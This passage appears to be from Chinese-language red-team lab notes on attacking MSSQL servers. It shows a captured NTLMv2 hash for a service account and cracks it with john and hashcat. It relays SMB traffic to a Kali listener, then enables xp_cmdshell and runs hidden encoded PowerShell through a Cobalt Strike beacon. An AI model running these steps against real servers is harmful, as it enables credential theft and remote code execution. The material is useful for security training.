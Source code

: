 [+] [2021-05-14T15:33:49] SMB(445) NTLMv2 captured for DEV\svc_mssql from 10.10.17.25(SRV-1):50323:
svc_mssql::DEV:[...snip...]
```

4. 破解
john
```
john --format=netntlmv2 --wordlist=wordlist svc_mssql-netntlmv2
```

hashcat
```
hashcat -a 0 -m 5600 svc_mssql-netntlmv2 wordlist
```

## 方法二

可以使用 WinDivert + rportfwd把smb流量转发到teamserver（就是kali机），然后再kali使用[smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)监听，这个方法前面几章已经有展示。

监听
```
root@kali:~# python3 /usr/local/bin/smbserver.py -smb2support pwn .
```

# MSSQL Command Execution

MSSQL拥有执行系统命令能力

PowerUpSQL使用```Invoke-SQLOSCmd```命令

```
beacon> powershell Invoke-SQLOSCmd -Instance "srv-1.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\svc_mssql
```


原生MSSQL使用``` xp_cmdshell ```命令
```
EXEC xp_cmdshell 'whoami';
```
但不一定成功，有可能没有权限，或者没有开启xp_cmdshell,会收到类似如下报错

![alt shell](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/xp_cmdshell-disabled.png?width=1920)


查看xp_cmdshell是否开启
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

value=0,表示没有开启

![alt value](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/sysconfigurations.png?width=1920)

开启xp_cmdshell功能
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

执行powershell命令
```
EXEC xp_cmdshell 'powershell -w hidden -enc <blah>';